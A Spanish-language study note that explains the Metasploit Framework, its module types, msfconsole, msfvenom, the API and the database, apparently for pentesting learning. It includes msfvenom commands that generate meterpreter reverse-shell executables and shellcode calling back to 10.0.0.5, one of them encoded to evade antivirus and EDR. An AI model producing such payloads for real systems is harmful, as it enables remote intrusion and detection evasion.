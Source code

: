 # What is Metasploit Framework?

**Metasploit Framework** (**MSF**) es un framwrok de explotación modular, orientado a facilitar el desarrollo, integración y ejecución de expoits, payloads, scanners y utilidades de post-explotación. Está re-escrito mayormente en Ruby y su diseño es modular, lo que nos indica que se compone de *modules* como:

- Exploit.
- Payload.
- Auxilliary.
- Post.
- Encoder.
- Nops.

Así como *handlers*, *sessions* y una base de datos para gestionar activos, credenciales y sesiones.

![[Pasted image 20250923180058.png]]
###### MSF Module Locations

*MSF* almacena los módulos dentro del directorio `/usr/share/metasploit-framework/modules` en sistemas Linux. Mientras que los módulos especificos del usuario son almacenados dentro del directorio `~/.ms4/modules` de un sistema Linux.

----
# [[Msfconsole]]

Esta herramienta es la *interfaz CLI interactiva* y la más utilizada. Proporciona autocompletado, ayuda, workspaces, history y ejecución de módulos. Algunos de los comandos más basicos en este punto son:

Algunas de las funcionalidades avanzadas incluyen:

- **Workspaces**: Asilar datos por objeto (`workspace -a {name}`, `workspace {name} `).
- **Jobs**: Ejecutar módulos en background con `exploit -j` o `run -j`.
- **Plugins**: Cargar funcionalidades extras descargables.

# Msfvenom

Herarmienta para generar payloads (Replacement de `msfpayload` / `msfencode`). Útil para crear binarios, scripts o raw payloads.

```bash
# Create a .exe with meterpreter reverse tcp (For Windows)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o shell.exe

# Shellcode raw (Hexadecimal)
msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw | xxd -i

# Encoders 
msfvenom -p windows/meterperter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o enc.exe 

# -i Iteratios
# -f Format
# -o Output
```

# Msfrpcd / API

Permite controlar Metasploit remotamente (Scripts, integración con otras herarmientas). Hay bindings en Python/Perl/Ruby. Muchas herramientas externas se integran via API (Ej. *Armitage*).

# Msfdb / Data Base

Metasploit usa una base de datos (Postgres) para almacenar hosts, puertos, credenciales, vulnerabilidades y sesiones. En instalaciones modernas hay scripts `msfdb`para inicializar/gestionar la DB (`msfdb init`, `msfdb start`, etc.).

```bash
db_status
db_map -sV 10.10.10.0/24
hosts
services
creds
```

----
# Modules Types

Metasploit organiza los módulos en categorías como mencionamos antes, estas son:

- **Exploit**: Código que parovecha una vulnerabilidad. Tiene `targets`, `Payload Compatibility` y `Options`. Suele tener `check` si implementado.
- **Auxiliary**: Herramientas de diagnóstico o ataque que no generan una session necesariamente (Scanners, fuzzers, dos, sniffers, etc.).
- **Payload**: Código inyectado/ejecutado en la máquina objetivo (*Stagers* y *stages*). Ej. meterpreter.
	- *Stagers*: Pequeño payload inicial que establece conexión y descarga/ejecuta el stage.
	- *Stage*: Funcionalidad completa (Meterpreter, shell_reverse_tcp).
- **Post**: Módulos de post-explotación que operan sobre una `session` existente (Cred harvesting, escalation, persistence).
- **Encoder**: Transforman payloads para evadir filtros/IDS/EDRs.
- **Nop**: Instrucciones NOP (*No Operation*) para padding (Ej. `x86/sled`).